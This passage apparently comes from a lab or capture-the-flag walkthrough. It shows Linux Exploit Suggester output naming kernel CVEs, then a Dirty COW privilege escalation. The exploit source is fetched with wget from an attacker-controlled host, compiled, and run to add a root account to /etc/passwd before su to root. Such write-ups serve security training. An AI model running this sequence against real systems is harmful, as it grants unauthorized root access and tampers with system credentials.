 ```bash
<SNIP>

╔══════════╣ Executing Linux Exploit Suggester 2
╚ https://github.com/jondonas/linux-exploit-suggester-2
  [1] dirty_cow
      CVE-2016-5195
      Source: http://www.exploit-db.com/exploits/40616
  [2] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [3] msr
      CVE-2013-0268
      Source: http://www.exploit-db.com/exploits/27297
  [4] perf_swevent
      CVE-2013-2094
      Source: http://www.exploit-db.com/exploits/26131
<SNIP>
```
{% endcode %}

The Linux Exploit Suggester has some suggestions including the dirtycow vulnerability as well as the one we tried to use before. We can use this [PoC](https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c) and by following its usage instructions we are able to get a root shell.

{% code overflow="wrap" %}
```bash
www-data@ubuntu:/tmp$ wget http://192.168.45.159:8888/dirty.c
--2024-09-05 00:15:08--  http://192.168.45.159:8888/dirty.c
Connecting to 192.168.45.159:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4815 (4.7K) [text/x-csrc]
Saving to: `dirty.c'

100%[===============================================>] 4,815       --.-K/s   in 0s

2024-09-05 00:15:08 (17.0 MB/s) - `dirty.c' saved [4815/4815]

www-data@ubuntu:/tmp$ PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/lib/gcc/x86_64-linux-gnu/4.8/;export PATH
www-data@ubuntu:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
www-data@ubuntu:/tmp$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
Complete line:
firefart:fi6bS9A.C7BDQ:0:0:pwned:/root:/bin/bash

mmap: 7f17609e9000

madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'test'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'test'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
www-data@ubuntu:/tmp$ su firefart
Password:
firefart@ubuntu:/tmp# ls /root
```